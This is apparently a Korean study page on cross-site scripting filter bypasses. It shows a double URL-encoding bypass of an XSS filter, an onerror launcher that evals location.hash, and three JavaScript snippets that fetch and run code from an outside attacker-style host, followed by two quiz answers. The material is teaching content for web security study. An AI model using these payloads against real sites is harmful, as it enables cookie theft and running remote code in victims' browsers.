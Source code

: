 ```http
POST /search?query=%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
...
-----
HTTP/1.1 403 Forbidden
XSS attempt detected: &lt;script&gt;alert(document.cookie)&lt;/script&gt;
```
위의 메시지는 공격에 실패한 메시지이다.  
```http
POST /search?query=%253Cscript%253Ealert(document.cookie)%253C/script%253E HTTP/1.1
...
-----
HTTP/1.1 200 OK
<h1>Search results for: <script>alert(document.cookie)</script></h1>
```
위의 메시지는 더블 디코딩 공격을 성공한 메시지이다.  
## 길이 제한  
삽입할 수 있는 **코드의 길이가 제한**되어 있는 경우, 다른 경로로 실행할 추가적인 코드 (payload)를 **URL fragment** 등으로 삽입 후 삽입 지점에는 본 **코드를 실행하는 짧은 코드** (launcher)를 사용할 수 있습니다. 
### location.hash 를 이용한 공격 방식  
```http
https://example.com/?q=<img onerror="eval(location.hash.slice(1))">#alert(document.cookie); 
```
### 외부 자원을 이용한 공격 방식  
```javascript
import("http://malice.dreamhack.io");  
```
```javascript
var e = document.createElement('script')
e.src='http://malice.dreamhack.io';
document.appendChild(e);
```
```javascript
fetch('http://malice.dreamhack.io').then(x=>eval(x.text()))
```

# 퀴즈  
1. JS에서 객체의 특정 속성에 접근할 때 속성 이름을 동적으로 계산하는 기능은 무엇인가?  
**답** : Computed member access  
2. instanceof 연산자를 override 할 수 있는 symbol은 무엇인가?
**답** : Symbol.hasInstance